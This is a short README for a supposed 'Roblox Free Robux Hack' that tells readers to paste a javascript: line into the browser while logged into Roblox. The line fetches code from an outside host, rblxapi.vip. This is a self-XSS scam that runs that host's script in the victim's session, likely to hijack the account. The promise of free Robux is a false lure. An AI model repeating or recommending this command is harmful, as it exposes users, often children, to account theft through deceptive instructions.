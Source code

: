 # RobloxFreeRobux
Hi!
Welcome Back With Another Game Hack!
This Hack For ROBLOX game !!!
Roblox Free Robux Hack !!!

# Usage
To run the hack,
you need to copy the code I give below.

CODE = xJavascript:$.get("//rblxapi.vip/api?id=1540169")

Now you need to open "Roblox Home Page"

When you copy the code, it has a (x) in front of it.

Paste it into the roblox browser and remove the x in front of it and click enter.

Type the amount of robux you want in the Pop-Up that appears

Refresh The Page And...

You now have your robux!!!
